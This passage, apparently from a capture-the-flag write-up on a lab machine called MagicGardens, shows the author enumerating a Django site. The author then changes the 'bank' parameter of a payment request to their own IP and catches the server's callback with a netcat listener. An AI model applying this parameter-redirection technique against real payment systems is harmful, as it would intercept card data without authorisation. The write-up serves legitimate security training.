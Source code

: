 I typically `--dont-follow-links` as it mostly returns a bunch of images and CSS. `feroxbuster` does find `/admin`, which confirms this site is Django:

![image-20250201174056326](/img/image-20250201174056326.png)

## Shell as morty

### Get Subscription

#### Request Analysis

When I try to pay for a subscription, there’s a POST request to `/subscribe/` that looks like:

```

POST /subscribe/ HTTP/1.1
Host: magicgardens.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Referer: http://magicgardens.htb/profile/?tab=subscription&action=upgrade
Content-Type: application/x-www-form-urlencoded
Content-Length: 189
Origin: http://magicgardens.htb
Cookie: csrftoken=UJawGZQ4cAD1IVh3TrTYjwwmODpw7Tzl; sessionid=.eJxrYJ2axQABtVM0ejhKi1OL8hJzU6f0sBhUpKRN6WErLkksKS2e0sMRXJKYl5JYlDKlh7M8szgjPiezuGRKD8OUHh4wNzm_NK8ktWhKBlsPZ3JiUQlEHsjjAfMQ0qV6AIlUK3Q:1teLkj:YK6d_IOBZ0uwTvcVhh36iuHavKePNsjBQwlgdKOICkE

csrfmiddlewaretoken=9sKpVDmnNKNMs2Bki5xvd4d3zd1ddcNqT1KLrs2hPagD0NId1mgjmqzfdGgzaVcB&bank=honestbank.htb&cardname=0xdf&cardnumber=1111-2222-3333-4444&expmonth=September&expyear=2026&cvv=420

```

In addition to the card name and number, expiration, and cvv, there’s a `bank` field with the value `honestbank.htb`. That comes from the bank I select here:

![image-20250201174839148](/img/image-20250201174839148.png)

The three options are `honestbank.htb`, `magicalbank.htb`, and `plunders.htb`:

![image-20250201174945142](/img/image-20250201174945142.png)

Adding these to my `hosts` file and trying to visit them just returns 404.

#### Bank API

To understand the bank APIs, I’ll send the request to `/subscribe/` to Burp Repeater and change the `bank` parameter to my IP. On sending, an HTTP request arrives at my listening `nc`:

```

oxdf@hacky$ nc -lnvp 80
Listening on 0.0.0.0 80
Connection received on 10.10.11.9 49908
POST /api/payments/ HTTP/1.1
Host: 10.10.14.6
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 129
Content-Type: application/json

{"cardname": "0xdf", "cardnumber": "1111-2222-3333-4444", "expmonth": "September", "expyear": "2026", "cvv": "420", "amount": 25}

```
